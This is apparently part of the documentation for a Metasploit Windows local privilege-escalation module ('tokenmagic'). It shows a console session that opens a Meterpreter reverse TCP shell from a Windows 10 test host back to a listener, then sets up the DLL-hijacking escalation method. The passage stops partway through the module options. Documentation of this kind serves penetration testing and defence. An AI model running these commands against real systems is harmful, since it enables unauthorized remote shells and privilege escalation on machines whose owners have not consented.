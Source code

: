   **WRITABLE_DIR**
  Directory to write file to (`%TEMP%` by default).

## Scenarios

### Tested on Windows 10 x64 1803 (Build 17134) via DLL Hijacking
```
msf6 > use multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 172.16.199.1
lhost => 172.16.199.1
emsf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200262 bytes) to 172.16.199.135
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.135:49941) at 2021-05-14 12:38:30 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/tokenmagic
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/tokenmagic) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(windows/local/tokenmagic) > set lport 4443
lport => 4443
msf6 exploit(windows/local/tokenmagic) > set session 1
session => 1
msf6 exploit(windows/local/tokenmagic) > set method DLL
method => DLL
msf6 exploit(windows/local/tokenmagic) > options

Module options (exploit/windows/local/tokenmagic):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   METHOD            DLL              yes       SERVICE or DLL, please select which attack method you would like to use (SERVICE by default).
```